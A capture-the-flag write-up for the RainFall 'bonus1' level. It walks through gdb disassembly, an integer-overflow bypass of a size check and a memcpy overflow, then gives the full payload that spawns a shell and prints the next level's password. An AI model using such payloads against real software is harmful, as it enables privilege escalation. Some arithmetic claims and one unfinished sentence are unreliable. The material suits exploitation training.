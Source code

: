 # Bonus 1

- Once logged in, you will see a binary `bonus1`

```
[???]$ ssh localhost -p 4242 -l bonus1
	  _____       _       ______    _ _
	 |  __ \     (_)     |  ____|  | | |
	 | |__) |__ _ _ _ __ | |__ __ _| | |
	 |  _  /  _` | | '_ \|  __/ _` | | |
	 | | \ \ (_| | | | | | | | (_| | | |
	 |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on localhost:4242
bonus1@localhost's password:
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/bonus1/bonus1
bonus1@RainFall:~$ ls
bonus1
bonus1@RainFall:~$

```

by executing the program, it segfault with no argument, and does nothing with the argument.
```
bonus1@RainFall:~$ ./bonus1
Segmentation fault (core dumped)
bonus1@RainFall:~$ ./bonus1 aaaaaaaaaaaaaaaa
bonus1@RainFall:~$
```

By taking a look at the binary, the function is calling execl, and on the above, in order to fall into the condition, the value esp+0x3c needs to be equal to `0x574f4c46`

```
gdb-peda$ disass main
[...]
   0x08048478 <+84>:	cmp    DWORD PTR [esp+0x3c],0x574f4c46
   0x08048480 <+92>:	jne    0x804849e <main+122>
   0x08048482 <+94>:	mov    DWORD PTR [esp+0x8],0x0
   0x0804848a <+102>:	mov    DWORD PTR [esp+0x4],0x8048580
   0x08048492 <+110>:	mov    DWORD PTR [esp],0x8048583
   0x08048499 <+117>:	call   0x8048350 <execl@plt>
   0x0804849e <+122>:	mov    eax,0x0
   0x080484a3 <+127>:	leave
   0x080484a4 <+128>:	ret
End of assembler dump.
gdb-peda$ x/s 0x8048580
0x8048580:	 "sh"
gdb-peda$ x/s 0x8048583
0x8048583:	 "/bin/sh"
gdb-peda$ x/s 0x0
0x0:	 <Address 0x0 out of bounds>
```

In order to prevent program to jump to <main+127>, the input has to be less and equal to 9 (`because of the operator JLE--Jump less or equal `), so that we can access to `memcpy()`, which might be usable for vulnerbility. Also, by looking at <+68> to <+72>, it is easily noticable that it takes two arguments.
```
   [...]
   0x08048438 <+20>:	call   0x8048360 <atoi@plt>
   0x0804843d <+25>:	mov    DWORD PTR [esp+0x3c],eax
   0x08048441 <+29>:	cmp    DWORD PTR [esp+0x3c],0x9
   0x08048446 <+34>:	jle    0x804844f <main+43>
   0x08048448 <+36>:	mov    eax,0x1						;
   0x0804844d <+41>:	jmp    0x80484a3 <main+127>
   0x0804844f <+43>:	mov    eax,DWORD PTR [esp+0x3c]
   0x08048453 <+47>:	lea    ecx,[eax*4+0x0]				; setting ecx (eax(x) *4 + 0x0(0) = 4 * x)
   0x0804845a <+54>:	mov    eax,DWORD PTR [ebp+0xc]
   0x0804845d <+57>:	add    eax,0x8
   0x08048460 <+60>:	mov    eax,DWORD PTR [eax]
   0x08048462 <+62>:	mov    edx,eax
   0x08048464 <+64>:	lea    eax,[esp+0x14]
   0x08048468 <+68>:	mov    DWORD PTR [esp+0x8],ecx		; ecx is 4 * x
   0x0804846c <+72>:	mov    DWORD PTR [esp+0x4],edx		; address of src
   0x08048470 <+76>:	mov    DWORD PTR [esp],eax			; address of dst
   0x08048473 <+79>:	call   0x8048320 <memcpy@plt>
   [...]
``

So the condition of two arguments needs to be set as following:
	- the first argument needs to be less than equal to 9
	- the second argument will needs to be equal to `0x574f4c46`, because of the comparison

How are we going to achieve each? because the number will be stored as DWORD(32 bits = int in 32 bits), the minimum number of interger is MIN_INT = `-2147483647`, and once multiplying by 4, the number will become 4. We want the value passed into last parameter for `memcpy` to be stored as at least bigger than 40 (beginning with -2147473637 to ...). (padding + value) For second argument, the second argument is copied into a buffer located 40 bytes above the location of the call `atoi()`.

and the number can be

So the payload will be the following:

```
  argv[1]        argv[2]
-2147483630  |  "A"* 40 + "\x46\x4c\x4f\x57"

-2147483630 $(python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"')
```

```
bonus1@RainFall:~$ ./bonus1 -2147483630 $(python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"')
$
$ whoami
bonus2
$ cat /home/user/$(whoami)/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
$
```
